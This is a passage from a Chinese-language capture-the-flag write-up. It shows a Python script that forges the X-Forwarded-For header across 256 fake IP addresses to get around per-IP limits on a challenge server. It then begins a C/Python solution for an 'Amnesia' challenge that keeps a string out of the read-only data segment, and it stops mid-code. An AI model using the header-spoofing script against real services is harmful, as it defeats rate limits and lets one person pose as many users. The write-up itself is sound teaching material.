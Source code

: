> 1.TCP协议不可以，因为要握手之后才通信
> 2.UDP理论上可以，因为你只管发就行。但是现在网关都有检查，你发出去，网关不认不给你发
> 3.http看具体业务怎么取IP,比如经典的业务取XFF头作为用户ip就导致可以伪造

XFF 头？这是什么东西？经过搜索，很容易就找到了，这是 `X-Forwarded-For`。于是问题迎刃而解。脚本如下：

```python
import sys
import re
import time
import requests
import tqdm

def main(url):
    for i in tqdm.tqdm(range(256)):
        ip = f"{i}.2.3.4"
        headers = {"X-Forwarded-For": ip}
        data = {"ip": ip}
        for i in range(5):
            r = requests.post(url, headers=headers, data=data)
            if re.search("重复", r.text):
                break
            if re.search("成功", r.text):
                break
            if re.search("操作速度太快了，请稍后再试", r.text):
                time.sleep(1)
        else:
            # python 的 for-else 语法，如果循环正常走完而没有 break 退出，
            # 那么就会执行 else 块的代码
            print("失败！")
            raise RuntimeError(r.text)


if __name__ == "__main__":
    main(sys.argv[1])
```

做出来以后看着 `tqdm` 进度条走完的过程真的舒服（

## 第9题：Amnesia

这题只做了第一问，第一问还是比较简单的，许多学过 C 语言的同学应该都会做。第二问我直接没有尝试。

### 第1小题：轻度失忆

在 C 语言中，字符串字面值通常是编译进只读数据段（`.rodata` 段）的，所以正常的 `printf("Hello, world!")` 当然不行。而静态变量则是在 `.data` 段。那么很自然的，不把字符串数据写在那里，而是直接写在代码段不就行了吗？

于是写了一个简单的脚本来生成重复代码（虽然没有必要）：

```python
from pathlib import Path
from typing import TextIO

c_filepath = Path(__file__).with_suffix(".c")
hello = "Hello, world!"
c_start = f"""\
#include <unistd.h>

int main(void)
{{
    char hello[{len(hello)}];
"""
c_end = f"""\
    write(1, hello, {len(hello)});
    return 0;
```